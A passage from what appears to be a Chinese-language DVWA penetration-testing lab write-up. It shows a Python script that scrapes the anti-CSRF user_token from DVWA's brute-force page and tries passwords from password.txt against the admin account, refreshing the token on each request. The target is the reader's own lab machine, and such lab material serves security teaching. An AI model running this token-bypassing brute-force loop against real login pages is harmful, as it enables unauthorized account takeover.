 ```python
        }

def get_token(requrl,header):
    req = requests.get(url=requrl,headers=header)
    page = req.text
    soup = BeautifulSoup(page,"html.parser")
    value = soup.select("input[name=user_token]")

    key=str(value)
    p1 = r"(?<=value=\").+?(?=\")"
    pattern1 = re.compile(p1)
    matcher1 = re.search(pattern1,key)

    user_token= matcher1.group(0)
    a=str(user_token)
    print (req.status_code,len(page))
    return a

user_token = get_token(requrl,header)
i=0

for key in open("password.txt"):

    requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+key.strip()+"&Login=Login&user_token="+user_token

    i = i+1
    print (i,'admin',key.strip(), end=" " )
    user_token = get_token(requrl,header)
    if (i == 100):
        break
```
![image](../../../img/渗透/实验/dvwa/dvwa11.png)
